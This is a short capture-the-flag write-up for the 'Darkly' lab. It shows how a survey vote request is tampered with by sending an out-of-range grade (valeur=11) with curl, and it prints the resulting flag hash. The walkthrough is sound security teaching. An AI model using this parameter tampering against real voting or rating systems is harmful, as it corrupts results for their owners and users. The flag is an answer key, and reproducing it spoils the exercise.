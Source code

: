 Survey Request Manipulation
===========================

The "Survey" page contains a table, in which you can vote for a certain person. The voting process involves selecting a number from 1 to 10 in a drop-down list. When you vote, the number of votes of that person increments, and grade average is updated.

The request sent from the browser to vote is like this:


```
POST /?page=survey HTTP/1.1
Host: darkly
Content-Length: 16
  [...]
Connection: keep-alive

sujet=2&valeur=5
```

"sujet" is the ID of the person that you vote for, and "valeur" is the grade that you give them.

We can modify the request in a couple of ways, we could change "sujet" to try to fuzz a new ID, we could try to insert strings instead of numbers, and we could just try with arbitrary inputs.

After trying for a while, it seems like if we specify a "valeur" that is greater than 10, we get the flag. Nothing seems to happen with other types of input, like high "sujet" numbers, or strings.


```
$ curl -s -X POST -d 'sujet=2&valeur=11' http://darkly/?page=survey | grep flag
<center><h2 style="margin-top:50px;"> The flag is 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <div style="margin-top:-75px">
```
